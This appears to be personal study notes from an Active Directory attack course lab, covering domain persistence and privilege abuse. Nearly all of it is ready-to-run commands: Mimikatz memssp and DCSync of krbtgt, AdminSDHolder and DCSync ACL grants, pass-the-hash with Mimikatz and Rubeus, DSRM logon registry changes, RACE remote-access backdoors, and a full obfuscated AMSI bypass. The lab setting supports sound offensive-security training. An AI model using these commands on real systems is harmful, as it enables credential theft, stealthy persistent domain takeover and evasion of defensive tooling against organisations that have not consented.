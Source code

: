 *tools*
- [samratashok/ADModule: Microsoft signed ActiveDirectory PowerShell module (github.com)](https://github.com/samratashok/ADModule)
- [samratashok/RACE: RACE is a PowerShell module for executing ACL attacks against Windows targets. (github.com)](https://github.com/samratashok/RACE)
- [PowershellMafia/PowerView (github.com)](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### **CUSTOM SSP**
*With MimiKatz*
o uso di mimilib.dll o 
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```
### **ACLs – AdminSDHolder**
Modifica le acl per aggiungerti il permesso di full control sull'user
*Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA*
```PowerView
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose
```
*Using ActiveDirectory Module and Set-ADACL*
```AD_module
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,D C=local' -Principal student1 -Verbose
```
*Use of race toolkit*
```AD_module
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```


### **ACLs – Right Abuse**
*Add FullControl rights*
Usando powershell
```Powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName student1 -Rights All -Verbose
```
Using ActiveDirectory Module and Set-ADACL
```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```
*Add rights for DCSync*
usando powershell
```Powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName student1 -Rights DCSync -Verbose
```
Using ActiveDirectory Module and Set-ADACL
```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose
```
Poi avvia DCSync  con mimikatz
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### **DC persistence by abusing the DSRM service.**
Firtsly dump the hashes from the dc
Open a session on the dc
```powershell
. C:\AD\Tools\Invoke-Mimi.ps1
```
```powershell
Invoke-Mimi -Command '"sekurlsa::pth /user:<ADMIN USER> /domain:<DOMAIN> /ntlm:<HASH> /run:cmd.exe"'
```
or using Rubeus
```cmd
C:\AD\Tools\Rubeus.exe asktgt /user:<ADMIN USER> /aes256:>aes256 HASH> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Launch Invishell e establish the session
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```powershell
$sess = New-PSSession dcorp-dc
```
Bypass the AMSI
```powershell
Enter-PSSession -Session $sess
```
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
```powershell
exit
```
Load and launch Invoke-Mimi
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```
```powershell
Enter-PSSession -Session $sess
```
```powershell
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
```
The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC
```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
![[Pasted image 20231025115059.png]]
Now from the attack box we can simply pas the hash and use the dsrm administrator session
```powershell
Invoke-Mimi -Command '"sekurlsa::pth /domain:<MACCHINA> /user:Administrator /ntlm:<HASH> /run:powershell.exe"'
```
```powershell
ls \\<MACCHINA>\c$
```

### **Grant remote access to a stupid user**
Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges.
Open a session with invoke-mimi or rubeus and launch invishell.
import the RACE.ps1 module
```powershell
. C:\AD\Tools\RACE.ps1
```
And modify the service
```powershell
Set-RemoteWMI -SamAccountName student115 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```
![[Pasted image 20231025144401.png]]
Now we granted the acces to us
```powershell
gwmi -class win32_operatingsystem -ComputerName <MACCHINA>
```
![[Pasted image 20231025144606.png]]
___
We can do the same but with powershell. After opened the session and imported
```powershell
. C:\AD\Tools\RACE.ps1
```
```powershell
Set-RemotePSRemoting -SamAccountName <STUPID USER> -ComputerName <MACCHINA> -Verbose
```
To check if the command worked
```powershell
Invoke-Command -ScriptBlock{whoami} -ComputerName <MACCHINA>
```
![[Pasted image 20231025145545.png]]
